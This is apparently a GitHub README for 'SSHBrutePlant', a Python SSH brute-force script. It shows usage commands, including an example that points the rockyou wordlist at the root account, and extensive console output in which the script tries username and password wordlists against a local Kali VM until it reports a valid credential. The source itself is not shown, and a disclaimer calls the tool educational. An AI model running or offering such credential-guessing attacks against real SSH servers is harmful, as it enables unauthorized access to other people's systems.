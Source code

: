 # SSHBrutePlant
SSH brute force script written in Python 3.

# Usage
```python3 sshBrutePlant.py 127.0.0.1 username password_list```

```
python3 sshBrutePlant.py                       
sshBrutePlant.py usage: python3 sshBrutePlant.py host username password_list
[*] Example: python3 sshBrutePlant.py 127.0.0.1 root /usr/share/wordlists/rockyou.txt
[*] A single user name or a wordlist of user names may be supplied.
[*] Password_list must be a wordlist.
```
The script was tested against the author's own virtual machine, kali linux, 127.0.0.1.
For examples below, a credential `hamster:hAmst428PASS@#$` was used.

user.txt had three entries.
```
chinchilla
guinea_pig
hamster
```

pass.txt had four entries.
```
1
2
hAmst428PASS@#$
2
```
## Using a user name
```
python3 sshBrute2.py 127.0.0.1 hamster pass.txt
[-] The supplied wordlist hamster does not exist.
[+] The supplied user name hamster will be used as a user name.
[+] The supplied password wordlist pass.txt will be used.
Current Setup
Host: 127.0.0.1
User name or wordlist: hamster
Password wordlist: pass.txt
Proceed? (y/n): y
[*] [1] Attempting password: 1...
[-] Connecting to 127.0.0.1 on port 22: Failed
[-] Invalid password
[*] [2] Attempting password: 2...
[-] Connecting to 127.0.0.1 on port 22: Failed
[-] Invalid password
[*] [3] Attempting password: hAmst428PASS@#$...
[+] Connecting to 127.0.0.1 on port 22: Done
[*] hamster@127.0.0.1:
    Distro    Kali 2022.1
    OS:       linux
    Arch:     amd64
    Version:  5.15.0
    ASLR:     Enabled
[+] Valid credential found: hamster:hAmst428PASS@#$.
[*] Closed connection to '127.0.0.1'
```

## Using a wordlist for user names
```
python3 sshBrute2.py 127.0.0.1 user.txt pass.txt 
[+] The supplied wordlist of user user.txt will be used.
[+] The supplied password wordlist pass.txt will be used.
Current Setup
Host: 127.0.0.1
User name or wordlist: <_io.TextIOWrapper name='user.txt' mode='r' encoding='UTF-8'>
Password wordlist: pass.txt
Proceed? (y/n): y
[*] Using chinchilla as the user name...
[*] [1] Attempting password: 1...
[-] Connecting to 127.0.0.1 on port 22: Failed
[-] Invalid password
[*] [2] Attempting password: 2...
[-] Connecting to 127.0.0.1 on port 22: Failed
[-] Invalid password
[*] [3] Attempting password: hAmst428PASS@#$...
[-] Connecting to 127.0.0.1 on port 22: Failed
[-] Invalid password
[*] [4] Attempting password: 2...
[-] Connecting to 127.0.0.1 on port 22: Failed
[-] Invalid password
[*] Using guinea_pig as the user name...
[*] [1] Attempting password: 1...
[-] Connecting to 127.0.0.1 on port 22: Failed
[-] Invalid password
[*] [2] Attempting password: 2...
[-] Connecting to 127.0.0.1 on port 22: Failed
[-] Invalid password
[*] [3] Attempting password: hAmst428PASS@#$...
[-] Connecting to 127.0.0.1 on port 22: Failed
[-] Invalid password
[*] [4] Attempting password: 2...
[-] Connecting to 127.0.0.1 on port 22: Failed
[-] Invalid password
[*] Using hamster as the user name...
[*] [1] Attempting password: 1...
[-] Connecting to 127.0.0.1 on port 22: Failed
[-] Invalid password
[*] [2] Attempting password: 2...
[-] Connecting to 127.0.0.1 on port 22: Failed
[-] Invalid password
[*] [3] Attempting password: hAmst428PASS@#$...
[+] Connecting to 127.0.0.1 on port 22: Done
[*] hamster@127.0.0.1:
    Distro    Kali 2022.1
    OS:       linux
    Arch:     amd64
    Version:  5.15.0
    ASLR:     Enabled
[+] Valid credential found: hamster:hAmst428PASS@#$.
[*] Closed connection to '127.0.0.1'
```

While testing the script, I noticed that the paramiko library throws FileNotFoundError if the user does not have a home directory, in which case the script suggests manual logging in with a valid credential.
```
python3 sshBrute2.py 127.0.0.1 hamster pass.txt
[-] The supplied wordlist hamster does not exist.
[+] The supplied user name hamster will be used as a user name.
[+] The supplied password wordlist pass.txt will be used.
Current Setup
Host: 127.0.0.1
User name or wordlist: hamster
Password wordlist: pass.txt
Proceed? (y/n): y
[*] [1] Attempting password: 1...
[-] Connecting to 127.0.0.1 on port 22: Failed
[-] Invalid password
[*] [2] Attempting password: 2...
[-] Connecting to 127.0.0.1 on port 22: Failed
[-] Invalid password
[*] [3] Attempting password: hAmst428PASS@#$...
[+] Connecting to 127.0.0.1 on port 22: Done
[+] The credential seems valid, but the user has no home directory.
[+] Try logging into the target manually with hamster:hAmst428PASS@#$
```

# Disclaimer
The script was written to better understand Python and for educational purposes. The author will not be held responsible for any damage and harm caused due to misuse of it. Please respect the local laws of your area.
